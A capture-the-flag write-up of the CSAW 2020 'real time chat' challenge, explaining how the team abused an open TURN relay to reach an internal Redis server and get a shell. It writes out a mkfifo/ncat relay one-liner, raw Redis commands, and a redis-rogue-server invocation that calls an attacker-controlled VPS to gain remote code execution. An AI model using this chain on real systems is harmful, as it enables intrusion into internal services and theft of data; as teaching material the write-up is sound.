



# WEB real time chat



## Writeup Summary

- Challenge description
- Enumeration

### Challenge description

`I started playing around with some fancy new Web 3.1 technologies! This RTC tech looks cool, but there's a lot of setup to get it working... I hope it's all secure.`

`http://web.chal.csaw.io:4955`

they also included some files: `Dockerfile` , `supervisord.conf` and `app.py`.
supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www

```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]

```

### Enumeration

At first, we took a look at those files, which show up that there are 3 servers running, a Redis server (not exposed to external), gunicorn (flask web app server), and turn ( for webrtc ).

then we took a look at the web app, basically the frontend and what does it do,



we found that it's sending requests to the flask app (the API) (OBVIOUSLY), and the file `rtc.js` is the source of this request, we checked it out, and after reading the some code we found the turn communication config, the turn host `web.chal.csaw.io:3478`, the username and password (empty):

```js
const iceConfiguration = {
  iceServers: [
    {
      urls: "turn:web.chal.csaw.io:3478",
      username: "",
      credential: "",
    },
  ],
  // Doesn't work to force relay only transport, something must be busted...
  //iceTransportPolicy: "relay"
};
```

We were new to webRTC, so we started googling and trying to learn about it, and about the turn server and the attacks vectors we can apply on it, we tried also to find a vulnerabilities in the web API but we get nothing, then we found a really interesting article `https://www.rtcsec.com/2020/04/01-slack-webrtc-turn-compromise/#a-very-brief-introduction-to-the-turn-protocol` talking about how to abuse a turn server and get access to internal services like Redis in our case, a really nice article and attack they are using, it suits our case very well, but there is a problem, they are using an internal tool called `stunner` that we couldn't find, so we just start searching for alternatives, we found a PoC for the same attack called `turner: https://github.com/staaldraad/turner` by `staaldraad`, after we found this we tried very hard to make it working even with the a lot struggles (the internet connection in our country was so bad :/ ) even tho we make it, we started testing if it's working,

run turner with turner config we found earlier:
`./turner -server web.chal.csaw.io:3478 -u '' -p ''`

send a request to our vps:
`curl -x http://localhost:8080 http://x.x.x.x`

this worked so well, so we used the browser also to load the app `http://0.0.0.0:5000` using the proxy and worked just fine.

now we are sure the proxy is working but how we can connect to Redis?!

we found that we can use an HTTP proxy with ncat, so we crafted really nice chaining:
`rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|ncat -lkp 1337 2>&1 |ncat --proxy-type http --proxy localhost:8080 0.0.0.0 6379 > /tmp/f`

this is basically connect to redis service on host: `0.0.0.0`, port :`6379` using proxy `http://localhost:8080` and forward it that to the port: `1337`

we tested the connection using simple command Redis command `INFO`:
`{printf "INFO\r\n"; sleep 1} | nc localhost 1337 -vvv`
worked perfectly!!!

we also tried to connect using `redis-cli` but it didn't work, it started sending some random data, so we settled on the raw commands sending!

In this step we had to get rce or read a file (flag), we had two options, crafting rce by ourself using raw Redis commands (our last option :3) or use tools, the redis-cli didn't work so we couldn't use the regular Redis attack using the config command,

we found many tools, that uses the master-slave attack we tried some but I'm gonna mention only the tool that worked for us:
https://github.com/n0b0dyCN/redis-rogue-server

Making this tool working was an adventure, as I mentioned before we had an internet problem in our country :/ and the ssh wasn't even working to get into our VPS,
So here is how it has been done:

- we used digitalocean web console to set up the Redis `redis-rogue-server`.
- we had already turner connected and also the ncat connect to Redis as I mentioned before.
- the last step was to connect the Redis service from our local port `1337` to `redis-rogue-server` in our VPS, we used ngrok.

```
./redis-rogue-server.py --rhost [ngrok url] --rport [ngrok port] --lhost [vps public ip]
```

then choose the Interactive shell: `cat /flag.txt`
`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`



in this challenge, we learned a lot, it's a good challenge that we really loved, big thanks to CSAW CTF 2020 organizers.
